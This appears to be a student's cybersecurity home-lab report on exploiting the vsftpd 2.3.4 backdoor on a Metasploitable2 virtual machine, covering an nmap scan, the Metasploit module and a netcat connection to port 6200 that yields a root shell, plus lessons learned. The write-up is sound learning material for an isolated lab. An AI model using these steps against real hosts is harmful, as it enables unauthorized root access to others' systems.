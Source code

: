 #  Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

###  Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.



### Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |



###  Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)



### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan


nmap -sV 192.168.56.102 -p 21


**Result**:


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4


#### 2. Exploit with Metasploit

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run

**Result**:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

nc 192.168.56.102 6200
whoami


**Result**:
root

###  Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

###  Screenshots

* Nmap scan result: ![Nmap_Scan](/screenshot/nmap_scan_result.png)
* Metasploit output and Netcat shell with 'root' : ![metasploit_output](/screenshot/exploit_result.png)
* attacker network setup: ![attacker_net](screenshot/attack-network-set.png)
* kali ping target : ![kali-ping](screenshot/kali_ping_target.png)
* metasploitable network setup: ![metasploit_net](screenshot/meta-network-set.png)


## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![metasploit_output](exploit_result.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
